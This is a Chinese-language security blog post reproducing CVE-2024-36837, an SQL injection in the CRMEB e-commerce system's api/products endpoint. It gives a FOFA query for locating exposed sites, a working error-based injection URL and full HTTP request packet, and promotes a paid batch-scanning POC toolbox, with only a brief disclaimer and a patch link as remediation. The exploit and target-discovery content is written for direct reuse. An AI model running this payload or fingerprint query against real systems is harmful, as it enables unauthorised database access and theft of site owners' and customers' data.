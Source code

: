 #  CRMEB电商系统api/products存在SQL注入漏洞CVE-2024-36837 附POC   
南风漏洞复现文库  南风漏洞复现文库   2024-06-19 23:07  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. CRMEB电商系统简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
CRMEB是一套开源的电商管理系统  
## 2.漏洞描述  
  
CRMEB是一套开源的电商管理系统。CRMEB v.5.2.2版本存在安全漏洞，该漏洞源于存在SQL注入漏洞，允许远程攻击者通过ProductController.php文件中的getProductList函数获取敏感信息。  
  
CVE编号:CVE-2024-36837  
  
CNNVD编号:CNNVD-202406-361  
  
CNVD编号:  
## 3.影响版本  
  
CRMEB电商系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a4RcIEZRJc6kskjNAK1XkicWB9Pvekx461x4YdYD7mHuj4gNowPaPGfBDibdyRSqRuKWIqgJePxDRg/640?wx_fmt=jpeg&from=appmsg "null")  
  
CRMEB电商系统api/products存在SQL注入漏洞  
## 4.fofa查询语句  
  
body="/wap/first/zsff/iconfont/iconfont.css" || body="CRMEB"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx.xx/api/products?limit=20&priceOrder=&salesOrder=&selectId=GTID_SUBSET(CONCAT(0x7e,(SELECT+(ELT(3550=3550,md5(1)))),0x7e),3550)  
  
漏洞数据包：  
```
GET /api/products?limit=20&priceOrder=&salesOrder=&selectId=GTID_SUBSET(CONCAT(0x7e,(SELECT+(ELT(3550=3550,md5(1)))),0x7e),3550) HTTP/1.1
Host: xxx.xxx.x9.237
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Connection: Keep-Alive
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=1, i
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a4RcIEZRJc6kskjNAK1Xkic2eU6e8ZkvvhicJhgEMMGrXXXefrORGB9gMfkDcFWelZYlavfLOm7P1Q/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a4RcIEZRJc6kskjNAK1Xkicf7zcuCe54qjicBqQjfOkTr0zm7oJSrhVSYjYicFbaNbdLYYw4agUjdzQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a4RcIEZRJc6kskjNAK1Xkicicx6WPl47O5rOK2S6B65pCibaKxTLp7icwHf2IBq2Kq3TMLk3e3QiaMZtg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a4RcIEZRJc6kskjNAK1XkiccwIjCBKlIibJXTfsRPlcHQejusm7xZGvXEr93L42sd6WD5bEhsmAtLg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a4RcIEZRJc6kskjNAK1XkicdhV6kCGJCQmgUIOFLCI2qvtZ9xNNppiayo62bfWibzibwLQay4kcJkEYw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a4RcIEZRJc6kskjNAK1XkicuaXgAH6Q2kabaptBGb7WI2PKeHia1naC9hnLoUFONSkEO09vWWg0L7g/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁 https://github.com/crmeb/CRMEB/releases/tag/v5.3.0  
## 8.往期回顾  
  
  
[Hikvision海康综合安防管理平台存在远程命令执行漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486589&idx=1&sn=28a33953f3c2b8607bf5ea5dcab765bf&chksm=974b817aa03c086c06a7c09b232d08519efd5358b3a82cd7f83475996b99c5572a06d0cd2680&scene=21#wechat_redirect)  
  
  
